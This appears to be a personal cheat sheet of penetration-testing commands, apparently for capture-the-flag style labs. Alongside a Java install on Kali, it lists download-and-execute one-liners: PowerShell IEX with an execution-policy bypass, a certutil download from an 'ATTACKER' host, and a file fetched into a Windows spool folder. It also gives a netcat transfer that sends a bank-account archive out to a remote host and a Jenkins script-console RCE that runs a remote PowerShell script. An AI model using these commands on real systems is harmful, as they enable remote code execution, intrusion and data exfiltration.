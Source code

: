 # PITA-commands-and-setups
Collection of pain in the ass commands which take a bit of googling to find the successful setup





```Installing jdk-8 in kali 2020.X```
- $ sudo apt-get install openjdk-8-jdk
- $ echo "deb http://ftp.us.debian.org/debian sid main" >> /etc/apt/sources.list
- $ apt-get update && apt-get upgrade
- $ sudo apt-get install openjdk-8-jdk
- $ sudo update-alternatives --config java

```linux b64 -> NT utf-16le b64```
- $ echo 'command here' | iconv -t utf-16le | base64 -w 0

```shellings```
- Invoke-WebRequest –Outfile C:\\Windows\\System32\\spool\\drivers\\color\\tcp.ps1 -Uri http://10.10.14.11/tcp.ps1
- powershell -NoP -ExecutionPolicy Bypass –c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/tcp.ps1')
- certutil.exe -urlcache -split -f "http://ATTACKER/FCUpdateService.exe" FCUpdateService.exe

```pwsh paths```
- C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
- C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe 

```nc.exe file transfers```
- \\192.168.119.135\nc.exe -w 3 192.168.119.135 9001 < c:\bank-account.zip 
- nc -lvp 9001 > bank-account.zip 

```jenkins RCE```
- def command = "powershell -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/tcp.ps1')" 
- def proc = command.execute() 
- println(proc.in.text)
